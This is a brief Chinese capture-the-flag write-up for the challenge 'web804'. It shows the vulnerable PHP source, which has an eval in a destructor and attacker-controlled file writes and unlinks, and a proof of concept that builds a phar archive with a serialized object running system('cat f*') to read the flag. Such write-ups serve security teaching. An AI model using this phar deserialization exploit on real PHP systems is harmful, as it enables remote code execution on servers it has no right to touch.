 ### web804

https://z3r4y.blog.csdn.net/article/details/134479335

[【Web】Phar反序列化相关例题wp_newstarctf pharone-CSDN博客](https://blog.csdn.net/uuzeray/article/details/134362720)

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);

class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}
```

我们发现代码里有个unlink函数，那这题大概率是phar反序列化

我们构造poc链

```php
<?php
class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}
$a=new hacker();
$a->code="system('cat f*');";
 
 
$phar = new Phar("test.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
 
?>
```

